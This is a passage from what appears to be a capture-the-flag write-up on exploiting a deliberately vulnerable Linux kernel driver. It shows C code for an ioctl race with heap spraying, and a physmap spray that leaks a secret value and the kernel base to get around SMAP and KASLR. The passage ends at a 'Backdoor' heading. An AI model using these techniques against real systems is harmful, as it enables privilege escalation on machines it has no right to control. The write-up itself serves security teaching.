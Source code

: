 ```C
for(i=0;i<1000;i++)
{
	for(j=0;j<256;j++)
		ioctl(fd,0xcafeb001,20);
	unsigned int lol = ioctl(fd,0xcafeb001,20);
	ioctl(fd,0xcafeb002,lol);
}
```

Run the 2 parallely, and you will gain control. For best results, let the spray run in background and during that, try to spam kmalloc(128, GFP_KERNEL).

## Where to Overwrite

With SMAP Enabled, we cannot just set the offset to a huge value that will make it point to userspace because it will trigger the SMAP violation. Also we don't know where the heap even is. At this point, there are couple ways to approach this. Find an object that is kmalloc()'d in the heap, and has data that will eventually be copied to userspace. Corrupt this data with `secret_value` and leak it.


## Physmap Spray

mmap 40k-50k pages with `MAP_POPULATE` flag in userspace. They will "appear" in the physmap area of the kernel address space. This is in the kernel heap itself, and since this is a "huge area", we can reliably have an overwrite from the IOCTL interface into the physmap area. Changes in physmap are reflected in userspace. So, in the event that we gain control of the chunk AND can trigger the IOCTL successfully, we need only search the mmap pages for a change in values. The change will be the leak.

```C
for(jk=0;jk<40000;jk++)
{
	for(by=1;by<(0x1000/8);by += 1)
	{
		if(*(arrr[jk] + by) != 0)
		{
			secret = *(arrr[jk] + by);
			leak = *(arrr[jk] + by + 1);
			leak = leak - 0x1caa50;
			race_flag = 2;
			printf("[+] secret: 0x%lx\n[+] kernel text: 0x%lx\n",secret,leak);
			break;
		}
	}
}
```

Thus I set `msg.mtype` to 0x2274f40 and I can reliably land in physmap. Now , we have the kernel text leak and the `secret_value`.

## The Backdoor
